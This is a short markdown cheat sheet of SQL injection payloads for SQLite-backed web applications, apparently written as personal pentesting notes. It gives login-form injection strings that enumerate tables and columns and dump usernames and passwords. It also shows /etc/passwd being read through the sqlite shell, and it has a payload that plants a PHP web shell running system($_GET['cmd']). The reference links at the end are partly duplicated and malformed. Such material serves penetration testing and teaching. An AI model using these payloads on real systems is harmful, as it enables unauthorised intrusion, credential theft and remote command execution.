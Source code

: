 ```yaml
---
layout: post
title: SQL Injection - SQLite
description: SQL Injection - SQLite
summary: SQL Injection - SQLite
tags: [sqli,db,enum]
minute: 1
---
```

## Databases
```
sqlite_master
```

## Quick Detection
```sql
-- check version
user=foo' and 1=2 union select all 1,2,3,sqlite_version();--&password=abc
```

## Reading a file
```sql
sqlite>
sqlite> CREATE TABLE pwn.data (data TEXT);
sqlite> .tables
data      pwn.data
sqlite> .import /etc/passwd data
sqlite> select * from data;
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/usr/bin/nologin
......
......
sqlite> .tables
data       pwn.data   pwn.shell  shell    
sqlite> DROP TABLE pwn.shell;
```

# Payloads
```sql
-- getting table names
user=foo' UNION SELECT group_concat(tbl_name),1,2,3 FROM sqlite_master;--&password=abc
user=foo' UNION SELECT group_concat(tbl_name),1,2,3 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';--&password=ab

-- extracting column names
user=foo' UNION SELECT sql,2,3,4 from sqlite_master where name='users';--&password=abc

-- getting a username and a password
user=foo' UNION SELECT name,2,3,password from users--&password=abc
user=foo' UNION SELECT name,2,3,password from users limit 2 offset 10--&password=abc

-- get info for lucas washington
user=foo' UNION SELECT name,2,3,password from users where name like '%lucas_%'--&password=abc

-- planting a php file
?id=bob’; ATTACH DATABASE ‘/var/www/lol.php’ AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES (‘<? system($_GET[‘cmd’]); ?>’;--
```

## Reference
* [PayloadsAllTheThings/SQLite Injection.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
* [Injecting SQLite database
based application](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf[Injecting SQLite database
based application](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)